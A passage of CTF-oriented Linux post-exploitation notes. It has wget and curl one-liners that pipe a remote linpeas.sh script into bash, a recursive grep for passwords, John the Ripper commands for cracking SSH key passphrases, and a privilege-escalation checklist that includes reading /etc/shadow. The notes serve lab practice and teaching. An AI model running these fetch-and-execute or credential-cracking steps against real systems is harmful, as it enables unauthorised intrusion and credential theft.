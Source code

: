 `find -L /  -type f -newermt 2019-08-24 ! -newermt 2019-08-27 2>&1 > /tmp/foundfiles.txt`

This has helped me to find interesting files on a few different CTF machines. Recursively searching for passwords is also a handy technique:
  `grep -ri "passw" .`

- Wget Pipe a remote URL directory to Bash (linpeas):

  `wget -q -O - "http://10.10.10.10/linpeas.sh" | bash`

- Curl Pipe a remote URL directly to Bash (linpeas):

  `curl -sSk "http://10.10.10.10/linpeas.sh" | bash`

## Using SSH Keys

Often, we are provided with password protected SSH keys on CTF boxes. It it helpful to be able to quicky crack and add these to your private keys.

- First we need to convert the ssh key using John:

  `kali@kali:~/.ssh$ /usr/share/john/ssh2john.py ./id_rsa > ./id_rsa_john...`

- Next we will need to use that format to crack the password:

  `/usr/sbin/john --wordlist=/usr/share/wordlists/rockyou.txt ./id_rsa_john`

- John should output a password for the private key.

## Methodology - Linux Checklist

- Kernel and distribution release details

- System Information:

  - [ ] Hostname
  - [ ] Networking details:
  - [ ] Current IP
  - [ ] Default route details
  - [ ] DNS server information

- User Information:

  - [ ] Current user details
  - [ ] Last logged on users
  - [ ] Shows users logged onto the host
  - [ ] List all users including uid/gid information
  - [ ] List root accounts
  - [ ] Extracts password policies and hash storage method information
  - [ ] Checks umask value
  - [ ] Checks if password hashes are stored in /etc/passwd
  - [ ] Extract full details for 'default' uid's such as 0, 1000, 1001 etc
  - [ ] Attempt to read restricted files i.e. /etc/shadow
  - [ ] List current users history files (i.e .bash_history, .nano_history, .mysql_history , etc.)
  - [ ] Basic SSH checks

- Privileged access:
